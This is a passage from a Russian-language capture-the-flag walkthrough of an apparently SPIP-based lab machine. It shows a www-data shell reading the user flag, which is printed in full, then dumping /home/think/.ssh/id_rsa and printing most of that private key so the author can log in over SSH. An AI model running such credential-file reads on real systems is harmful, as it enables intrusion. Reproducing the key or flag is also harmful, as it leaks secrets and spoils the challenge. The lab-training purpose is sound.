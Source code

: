 ```commandline
whoami
www-data@41c976e507f8:/home/think/spip/spip$ whoami
whoami
www-data
```
получим первый флаг
```commandline
www-data@41c976e507f8:/home/think/spip/spip$ ls /home
ls /home
think
www-data@41c976e507f8:/home/think/spip/spip$ ls /home/think
ls /home/think
spip
user.txt
www-data@41c976e507f8:/home/think/spip/spip$ cat /home/think/user.txt
cat /home/think/user.txt
fa229046d44eda6a3598c73ad96f4ca5  
```

### 5. Подключимся по ssh к целевой машине
для этого необходимо получить соответствующий ключ:
```commandline
ls -la /home/think
ls -la /home/think/.ssh
cat /home/think/.ssh/id_rsa
```
скопируем полученное содержимое в свой файл:
```commandline
nano id_rsa
```
для ясности, содержимое нашего ключа:
```commandline
-----BEGIN OPENSSH PRIVATE KEY-----
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
```